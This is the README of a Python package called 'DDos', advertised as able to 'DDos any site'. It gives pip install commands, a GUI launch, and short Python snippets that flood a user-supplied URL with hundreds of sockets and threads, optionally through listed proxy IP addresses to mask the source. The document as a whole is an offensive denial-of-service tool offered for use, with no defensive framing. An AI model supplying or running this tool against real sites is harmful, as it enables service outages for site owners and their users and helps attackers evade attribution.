 # DDos

DDos any site using python

## Install

### From PyPI

`pip3 install DDos==1.0.1` (You should really use this version)

### From GitHub

`pip3 install git+https://github.com/donno2048/DDos`

## Usage

### GUI

To use it just run:

```sh
DDos
```

or

```sh
ddos
```

in the terminal to launch the GUI (Tkinter is a requirement for the GUI so use: `sudo apt-get update && sudo apt-get install python3-tk -y` on Linux. On Windows it's already installed)

### TUI

To use the text-based user interface see this python example:

```py
from DDos import checkUrl, DDos # import the needed functions
while True:
    url = input("Give me a URL: ") # get a url from the user
    if checkUrl(url): break # if it's formatted correctly exit the loop
    else: print("This URL isn't formatted correctly, try again") # else, go back
DDos(url, sockets = 400, threads = 10) # ddos this url with 400 sockets and 10 threads
```

or simply:

```py
from DDos import DDos
DDos(input("Give me a URL: ")) # if the url isn't formatted correctly it will have an assertion error, use 500 sockets and 10 threads, no proxies will be used
```

The DDos function also has a `proxies` optional variable and there is a `checkProxy` function, you can use them like so:

```py
from DDos import DDos, checkProxy
assert checkProxy("109.237.91.155:8080")
assert checkProxy("178.128.37.176:80")
DDos(input("Give me a URL: "), proxies = ["109.237.91.155:8080", "178.128.37.176:80"])
```

If you give an invalid proxy you will get an assertion error.
